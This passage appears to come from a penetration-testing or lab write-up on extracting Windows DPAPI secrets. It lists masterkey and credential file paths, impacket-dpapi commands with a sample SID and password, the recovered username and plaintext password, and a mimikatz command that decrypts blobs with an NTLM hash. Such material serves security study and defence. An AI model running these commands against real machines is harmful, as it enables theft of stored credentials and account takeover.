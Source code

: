 - impacket-dpapi

##### Practical Example with impacket-dpapi:

###### Step 1: Extract the masterkey file

```powershell
C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SID>\
```

###### Step 2: Locate DPAPI credential blobs

```powershell
C:\Users\<username>\AppData\Roaming\Microsoft\Credentials\
```

###### Step 3: Decrypt the masterkey using the known password

```bash
impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne
```

###### Step 4: Use the decrypted key to unlock credentials

```bash
impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key <decrypted_key>
```

Output:

```bash
Username : acme\l.paredes_ops  
Password : Uncr4ck4bl3P4ssW0rd0312
```

#####  Why This Works

- No need for NTLM hashes or domain-level access.

- Works completely offline with local files.

- Faster and more direct than Pass-the-Hash methods.

####  2. Access via NTLM Hash

If a user’s NTLM hash is available (e.g., via LSASS dump, DCSync, or Pass-the-Hash), it can also be used to decrypt DPAPI secrets.

#####  Requirements:

- User's SID

- NTLM hash

- Target credential blob or masterkey file

#####  Example using mimikatz:

```powershell
mimikatz # dpapi::cred /in:CRED_FILE.crd /sid:S-1-5-21-... /hash:<NTLM_HASH>
```
